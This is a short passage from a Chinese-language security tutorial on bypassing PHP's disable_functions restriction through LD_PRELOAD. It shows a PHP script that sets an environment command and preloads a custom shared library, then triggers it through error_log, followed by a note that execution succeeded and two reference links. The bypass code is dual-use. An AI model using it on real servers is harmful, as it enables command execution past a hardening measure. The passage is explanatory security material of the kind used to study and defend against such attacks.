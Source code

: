 test2.php

```
<?php
putenv("CMD=ls");
putenv("LD_PRELOAD=./test3_x64.so");
error_log("a",1);
?>
```

![1567075553666](通过LD_PRELOAD绕过disable_functions.assets/1567075553666.png)

可以看到执行成功。









## 0x03 参考链接

https://www.anquanke.com/post/id/175403

https://www.smi1e.top/php-bypass-disabled_functions/